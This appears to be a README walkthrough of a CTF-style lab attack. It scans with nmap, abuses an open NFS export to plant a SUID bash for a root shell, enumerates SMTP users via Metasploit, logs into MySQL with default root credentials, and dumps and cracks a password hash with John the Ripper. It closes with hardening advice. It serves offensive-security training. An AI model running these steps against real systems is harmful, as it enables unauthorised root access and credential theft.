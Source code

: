 # 🔓 PenTest Walkthrough — NFS, SMTP & MySQL Attack

> A step-by-step walkthrough exploiting a vulnerable machine using **NFS**, **SMTP**, and **MySQL** attack techniques. Perfect for CTF training, offensive security learning, or building a technical portfolio.

---

## 🔍 Nmap Discovery

We start by scanning the target machine:

```bash
nmap -sS -sV -O -Pn -p- 10.10.16.13
```

**Scan results:**

- 22/tcp — SSH (OpenSSH 7.6p1 Ubuntu)
- 111/tcp — RPCBind
- 2049/tcp — NFS v3-v4
- 33043/tcp — mountd
- 42457/tcp — nlockmgr
- 46645/tcp — mountd
- 56517/tcp — mountd

![Nmap Scan](images/image-20250503003559188.png)

---

## 📁 NFS Attack

NFS is exposed and exporting directories without authentication.

### 🔧 Mounting the NFS share:

```bash
showmount -e 10.10.16.13
sudo mount -t nfs 10.10.16.13:/home/user /mnt/nfs
```

![Mount NFS](images/image-20250503004653389.png)

---

### ⚙️ Privilege Escalation with SUID Bash

We copy a local Bash binary and apply root privileges using SUID:

```bash
cp ~/Downloads/bash /mnt/nfs
sudo chown root bash
sudo chmod +s bash
```

![Copy Bash](images/image-20250503195310704.png)

Then we get a root shell using:

```bash
./bash -p
```

![Root Shell](images/image-20250503202950261.png)

---

## ✉️ SMTP Enumeration

Using Metasploit to enumerate valid SMTP users.

### 🔎 Running smtp_enum module:

```bash
msfconsole
search smtp_enum
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS 10.10.16.13
run
```

![SMTP Enum](images/image-20250504210311199.png)

---

## 🛢️ MySQL Access

Accessing MySQL with weak credentials:

```bash
mysql -h 10.10.16.13 -u root -p
# password: password
```

![MySQL Login](images/image-20250505001633560.png)

Querying version and dumping hashes:

```sql
SELECT @@version;
SELECT * FROM users;
```

![SQL Version](images/image-20250505001729704.png)

Extracted hash:

```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

---

## 🔐 Cracking Hash with John

1. Save the hash to a file:

```bash
echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" > hash.txt
```

2. Run John the Ripper:

```bash
john hash.txt --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt
```

![John Running](images/image-20250505003744664.png)

---

## ✅ Conclusion

This target machine highlighted multiple common vulnerabilities:

- Unrestricted NFS → privilege escalation
- Exposed SMTP → user enumeration
- Weak MySQL credentials → credential dumping

---

### 🛡️ Hardening Recommendations:

- Restrict NFS exports by IP and UID
- Use firewall rules to limit internal services
- Disable unnecessary SMTP accounts
- Enforce strong MySQL credentials and host binding

